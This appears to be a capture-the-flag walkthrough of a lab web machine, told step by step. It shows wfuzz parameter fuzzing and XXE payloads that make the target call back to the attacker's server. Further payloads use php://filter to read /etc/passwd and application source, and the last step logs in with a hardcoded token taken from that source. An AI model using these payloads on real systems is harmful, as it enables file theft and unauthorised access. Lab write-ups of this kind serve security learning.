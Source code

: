 We are not sure that `id` is the only parameter so we'll use fuzzing to figure this out.

```bash
$ wfuzz -u http://10.10.15.130/api/user?FUZZ -w /usr/share/wordlists/rockyou.txt --hh=52
```

We have two parameters `id` and `xml`. The difference between these two is that the one returns json and the other xml data. With xml we have an attack in mind which is XXE.

In Burp modify the xml section and add the following 

```bash
# spin up a local server and send request with the following xxe payload
<?xml version="1.0"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://10.8.0.115/test"> ]>
<foo><id>&xxe;</id></foo>
```

Now we know that `/api/user` endpoint is vulnerable to XXE attacks. The cleanest method is to use php. filters and base64 encoding. Then we can copy the hash, decode it and review the data in a text editor.

```bash
# Collect anything you deem important
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
```

```bash
# xxe payload
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>

# Decoded (possible Lavarel structure)
<?php
include_once('../Autoload.php');
include_once('../Route.php');
include_once('../Output.php');
include_once('../View.php');

Route::load();
Route::run();
```

Knowning the Lavarel structure we can grab the code from the website.

```bash
# xxe payload
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=../controllers/Website.php"> ]>

# Decoded
<SNIP>
if(isset($_COOKIE["token"]) && $_COOKIE["token"] === '1f7f97c3a7aa4a75194768b58ad8a71d')
<SNIP>
```

Now we've got the token which we know from earlier is part of the authentication. Back on Server Manager navigate to `/token?token=1f7f97c3a7aa4a75194768b58ad8a71d'` and you'll be logged in.
